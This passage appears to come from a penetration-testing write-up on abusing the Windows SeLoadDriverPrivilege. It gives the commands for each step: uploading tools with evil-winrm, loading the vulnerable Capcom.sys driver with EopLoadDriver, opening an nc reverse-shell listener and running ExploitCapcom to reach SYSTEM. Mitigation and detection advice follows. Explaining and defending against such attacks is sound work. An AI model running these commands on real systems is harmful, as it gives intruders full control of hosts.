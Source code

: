 
#### Run the exploit chain on the victim: {#run-the-exploit-chain-on-the-victim}

Now that we have all our tools ready, let's execute the attack:

1.  **I Use** `evil-winrm` **to transfer all the files to the target**:
    -   `upload [filename]`
    -   {{< figure src="/ox-hugo/2024-10-18-130359_.png" >}}
    -   Use whatever method you prefer

2.  **Load the driver Run Exploit**:
    -   `.\EopLoadDriver.exe System\CurrentControlSet\Capcom C:\Users\svc-print\Documents\Capcom.sys`
    -   {{< figure src="/ox-hugo/2024-10-18-130552_.png" >}}
    -   All 0's is good as a response, means we are working.

3.  **Setup Listener**:
    -   `rlwrap -cAr nc -lnvp 443`

4.  **Trigger exploit**:
    -   `.\ExploitCapcom.exe`
    -   {{< figure src="/ox-hugo/2024-10-18-143703_.png" >}}

5.  **Catch the reverse shell and verify privileges**:
    -   {{< figure src="/ox-hugo/2024-10-18-143802_.png" >}}


### Summary: {#summary}

This real-world example demonstrates the entire process of exploiting the `SeLoadDriverPrivilege`, from initial enumeration to achieving `SYSTEM`-level access.


## Defending Against SeLoadDriverPrivilege Attacks: {#defending-against-seloaddriverprivilege-attacks}

Given the potential for abuse, it's crucial for system administrators to take steps to mitigate the risks associated with `SeLoadDriverPrivilege`. This includes:

1.  Restricting privilege assignment to only the most trusted accounts.
2.  Implementing rigorous driver integrity checks.
3.  Regularly auditing account privileges to detect any unauthorized changes.
4.  Using driver blocklists to prevent known vulnerable drivers from being loaded.
5.  Employing application control solutions like Windows Defender Application Control (WDAC) or AppLocker to restrict driver loading.

Detection is equally important. Monitoring Windows Event Logs for driver loading events (Event ID 6), configuring `Sysmon` to track driver loads, and implementing behavioral analysis to spot unusual patterns of driver loading can all help in identifying potential attacks.

It's important to note that no single measure can provide complete protection against SeLoadDriverPrivilege exploitation. A defense-in-depth strategy, combining multiple layers of security controls, is crucial for comprehensive protection against this and other potential vulnerabilities.


## Conclusion: {#conclusion}
